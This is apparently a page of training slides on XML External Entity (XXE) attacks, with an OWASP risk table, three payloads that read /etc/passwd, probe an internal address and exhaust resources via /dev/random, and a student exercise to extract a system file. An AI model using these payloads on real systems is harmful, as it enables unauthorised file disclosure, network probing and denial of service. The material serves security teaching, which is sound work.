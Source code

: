 ## XML External Entities (XXE)

| Exploitability                 | Prevalence                    | Detecability      | Impact              | Risk                                                                                                      |
|:-------------------------------|:------------------------------|:------------------|:--------------------|:----------------------------------------------------------------------------------------------------------|
| :large_orange_diamond: Average | :large_orange_diamond: Common | :red_circle: Easy | :red_circle: Severe | [A4](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_(XXE)) |
| ( **2**                        | + **2**                       | + **3** ) / 3     | * **3**             | = **7.0**                                                                                                 |


---

# XML with Attack Payloads

## Extracting Data

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    <foo>&xxe;</foo>
```

---

## Network Probing

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
    <foo>&xxe;</foo>
```

## DoS Attack (against Linux-based Systems)

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///dev/random" >]>
    <foo>&xxe;</foo>
```

---

# Exercise 8.1

1. Identify the weak point of the application that accepts arbitrary XML
   data as input (:star::star:)
2. Retrieve the content of your local system‘s `C:\Windows\system.ini`
   (or `/etc/passwd` if you are using Linux) via an XXE attack
   (:star::star::star:)

---